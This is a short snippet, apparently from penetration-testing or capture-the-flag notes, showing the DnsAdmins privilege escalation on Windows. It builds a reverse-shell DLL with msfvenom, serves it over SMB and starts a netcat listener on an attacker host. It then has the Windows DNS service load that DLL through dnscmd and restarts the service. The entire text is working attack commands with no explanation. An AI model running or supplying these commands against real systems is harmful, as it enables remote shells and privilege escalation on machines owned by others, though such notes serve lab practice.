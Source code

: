 {% code title="On Kali" overflow="wrap" %}
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -o pwn.dll

smbserver.py smbFolder $(pwd) -smb2support

rlwrap nc -nlvp 443
```
{% endcode %}

{% code title="On Windows" %}
```powershell
dnscmd.exe /config /serverlevelplugindll \\10.10.14.13\smbFolder\pwn.dll

sc.exe stop dns

sc.exe start dns
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1098_vmware_ArK0noBJ9k.png" alt=""><figcaption></figcaption></figure>
